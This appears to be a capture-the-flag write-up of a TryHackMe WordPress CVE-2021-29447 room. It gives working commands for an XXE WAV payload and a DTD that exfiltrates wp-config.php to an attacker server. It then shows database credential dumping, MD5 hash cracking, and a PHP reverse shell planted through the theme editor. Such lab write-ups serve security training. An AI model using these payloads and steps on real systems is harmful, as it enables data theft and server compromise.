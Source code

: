 Room: [Wordpress: CVE-2021-29447](https://tryhackme.com/room/wordpresscve202129447)

Difficulty: Medium

Overview: This is a semi-guided challenge room. We will exploit a Wordpress server through a WAV file that will allow us to read the contents of a sensitive file. Gaining access to mysql database to finaly get our foot in machine by using Wordpress themes editor.

------------------------------------------------------------------------------------------------------------------------------------------------------------------

As usual we will start our enumeration by running “nmap” to search for all open ports on the target system:

```
nmap -sV -sC -p- wordpress.thm -oN nmap.txt

-sV → Probe open ports to determine service
-sC → Scan using the default set of scripts
-p- → Scan all ports
-oN → Save the ouput of the scan in a file
```

![image](https://user-images.githubusercontent.com/76821053/131554897-778e3a32-8854-4197-a272-734d49759a2d.png)

Since this room is a semi guided challenge we will exploit the http web server on port 80 that was built with Wordpress. 

![image](https://user-images.githubusercontent.com/76821053/131554922-bee65342-5aee-476f-90a1-b7405fbf7a87.png)

To bypass the login portal and access the user dashboard we are going to use the credentials that were given in the previous task: 

![image](https://user-images.githubusercontent.com/76821053/131554952-53b74961-1ec5-4d08-ad45-f8ae03e717e3.png)

How to find the login portal path? We can use google to search for it, or we can also use “gobuster” to search for any hidden files or directories, which is always a good practice:

```
gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --url http://wordpress.thm -x .txt,.log,.php,.html
```

![image](https://user-images.githubusercontent.com/76821053/131554975-40176714-c2af-4488-953a-698136312558.png)

The login portal's path is at "/wp-login.php":

![image](https://user-images.githubusercontent.com/76821053/131555006-cd5cb3fd-89e8-40bc-9582-f78d816f5a7b.png)

Insert the credentials and we are greated by the user dashboard:

![image](https://user-images.githubusercontent.com/76821053/131555046-d78ec0b5-233b-4529-b2d4-06edce25fee8.png)

We can see that the version of this Wordpress web server is 5.6.2 and it has a CVE-2021-29447. This CVE tells us that a user with the ability to upload files can exploit an XML parsing issue in the Media Library leading to XXE attacks. This requires WordPress installation to be using PHP 8. 

Access to internal files is possible in a successful XXE attack. So let's follow the step by step POC (proof of concept) in task 1 of this room:

1. Create a malicious wave file:

```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSEVERIP:PORT/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

![image](https://user-images.githubusercontent.com/76821053/131555072-339bd7ed-1bbe-4e7e-88b5-0006909b0347.png)

In my payload i changed the ip address and port to match my attacker machine. You can check your ip address with the command "ifconfig".

I also changed the name of “NAMEEVIL.dtd” to “payload.dtd”. It is important that this file has an extention of ".dtd".

2. Create a dtd file with the same name has the "NAMEEVIL.dtd" or with the one that you have chosen before. And, we will have to make some slightly changes:

In this payload we need to change the path of the file that we want to read. In the POC the payload reads "/etc/passwd", so we have to change this to read “wp-config.php”.

Every linux server by default is at “/var/www/html" so the config file must be in this path.

```
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
```

In the second part of the payload only change the ip address and port to match your own.

![image](https://user-images.githubusercontent.com/76821053/131555138-dceb62ee-81c9-491c-abd3-654aadd8f5d6.png)

Now that we have created our payloads we have two files in our directory:

![image](https://user-images.githubusercontent.com/76821053/131555162-f4d21a81-2795-4426-b72b-77868a276ecd.png)

3. Before we upload the .wav file to the Wordpress server we have to host an http server in the same directory as the dtd file:

```
php -S 0.0.0.0:8000
```

This php http server have to be listening on the port that we chose for the payloads.

![image](https://user-images.githubusercontent.com/76821053/131555197-c06d68c4-7ab0-4c24-8657-d59930bcf6fa.png)

4. Time to upload the .wav file:

Go to Media tab and just select the .wav payload.

![image](https://user-images.githubusercontent.com/76821053/131555255-60875794-3784-4657-b5bb-1044eb7e55d7.png)

This will execute code on the webserver, it will fetch the dtd file and we will see information stored in the requests off our php HTTP server logs:

![image](https://user-images.githubusercontent.com/76821053/131555293-e96c8d12-ad16-48f0-bf34-7f79a7bbdcea.png)

5. To read the contents of the request we can use this php one liner:

```
<?php echo zlib_decode(base64_decode('base64here')); ?>
```

Create a .php file with the one liner and copy the encoded data from the your php request log and paste it to “base64here”.

![image](https://user-images.githubusercontent.com/76821053/131555314-0af8c5a2-c6de-42f8-9af7-cfafae609d0d.png)

To read it we just do:

```
php filename.php
```

![image](https://user-images.githubusercontent.com/76821053/131555341-c4137e10-81d6-4738-a49a-afa789882614.png)

Success we managed to read the contents of wp-config.php. Inside was some database credentials that we can we will be taking advantage next.

Looking at the nmap scan we can see that mysql is running on this system. Let's connect to it with the credentials that we have found above:

```
myslq -h wordpress.thm -u USERNAME -p

-h → To specify the URL
-u → Put the username from the database
-p → For connecting with a password
```

![image](https://user-images.githubusercontent.com/76821053/131555375-7c574c84-7b4f-4a57-8a6c-cb112d2a718e.png)

To navigate mysql service, we can start by listing all databases available:

```
show databases;
```

![image](https://user-images.githubusercontent.com/76821053/131555403-b242c4e7-2b07-47bd-a2b3-ece2495ec92c.png)

Now we have to select the correct dabatase and list all the tables inside:

```
use wordpressdb2

show tables;
```

![image](https://user-images.githubusercontent.com/76821053/131555434-78dd0584-11bf-48af-9e11-9612154b63c6.png)

The table that calls out for attention is wptry_users. To extract its contents we can use this command:

```
SELECT * FROM wptry_users;
```

![image](https://user-images.githubusercontent.com/76821053/131555456-4443a6d8-61d2-4700-8959-a919e1561e5f.png)

We have found our user id 1 and his password hash. 

This hash is encryted in MD5. To find this information we can use a tool called “hash-identifier”:

![image](https://user-images.githubusercontent.com/76821053/131555494-9006149d-9f6d-4bb5-845b-391cf46650a1.png)

To crack this hash we can use “John the Ripper”.

First we need to put this hash into a .txt file and send it to john:

```
echo 'MYSQL_HASH' > hash.txt

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/76821053/131555533-65f6b2cc-6406-49cf-b2b3-1f020842afaa.png)

Now we have new credentials and they also belong to the Wordpress server.

How can we compromise the machine and get a reverse shell?

We can leverage the fact that we have access to the “admin” dashboard in the wordpress server. And, by editing the appearance of the web page we will get a reverse shell.

To be more specific let's review the steps:

• Create a php reverse shell with "msfvenom" or use the awesome php reverse shell from [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). 

• In the Wordpress server go to "Apperance/Theme Editor" tab and select "Twenty Twenty" .

• Choose a php theme file. I used “404 Template” and overwrite its contents with the php reverse shell payload:

![image](https://user-images.githubusercontent.com/76821053/131555575-2844f4e2-695d-4938-95fe-f6cd96350e49.png)

• If you are using the payload from Pentestmonkey you have to change the ip address and port that i marked with arrows.

• Start a netcat listener on the same port as the payload.

• To trigger the payload we have to access “Themes” tab select “Twenty Twenty” and press “Live Priview”:

![image](https://user-images.githubusercontent.com/76821053/131555602-37116fd4-c554-4890-b221-b0f3d3e85d8d.png)

• Finaly just press any of the contents of the live preview and in your shell you will recieve a connection from the server:

![image](https://user-images.githubusercontent.com/76821053/131555632-d72a7652-c99b-404e-93e3-8dfd4e002a58.png)

Success we have access to the target machine. 

The final flag is at “stux" home directory:

![image](https://user-images.githubusercontent.com/76821053/131555648-438bfaad-cf7a-414c-ada8-fe87f212fb02.png)








































